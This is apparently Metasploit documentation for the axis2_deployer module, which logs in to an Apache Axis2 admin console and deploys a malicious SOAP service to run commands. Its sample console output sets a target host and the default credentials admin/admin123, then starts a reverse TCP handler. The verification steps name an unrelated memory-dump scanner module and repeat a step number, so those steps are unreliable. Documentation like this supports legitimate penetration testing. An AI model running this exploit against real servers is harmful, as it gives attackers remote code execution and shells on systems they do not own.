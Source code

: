 ##Description

This module logs in to an Axis2 Web Admin Module instance using a specific user/pass and uploads and executes commands via deploying a malicious web service by using SOAP.

##Axis2 Web Admin

The Apache Axis2 Web application has three main sections:'Services' lists all the available services deployed in this server, 'Validate' checks the system to see whether all the required libraries are in place and views the system information, and 'Administration' is the Axis2 Web Administration module which is the console for administering the Apache Axis2 installation. The Axis2 Web Administration module provides a way to configure Axis2 dynamically.

**IMPORTANT:** This dynamic configuration will NOT be persistent, i.e., if the servlet container is restarted, then all the dynamic configuration changes will be lost.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/ms15_034_http_sys_memory_dump```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
3. Do: ```set USERNAME [Username]```
4. Do: ```set PASSWORD [Password]```
5. Do: ```run```

## Sample Output

```
msf > use exploit/multi/http/axis2_deployer
msf exploit(axis2_deployer) > set RHOST 10.10.155.37
RHOST => 10.10.155.37
msf exploit(axis2_deployer) > set RPORT 8080
RPORT => 8080
msf exploit(axis2_deployer) > set USERNAME admin
USERNAME => admin
msf exploit(axis2_deployer) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(axis2_deployer) > show options

Module options (exploit/multi/http/axis2_deployer):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  admin123         no        The password for the specified username
   PATH      /axis2           yes       The URI path of the axis2 app (use /dswsbobje for SAP BusinessObjects)
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     10.10.155.37     yes       The target address
   RPORT     8080             yes       The target port
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            no        The username to authenticate as
   VHOST                      no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Java

msf exploit(axis2_deployer) > exploit

[*] Started reverse TCP handler on 10.10.155.39:4444 

```
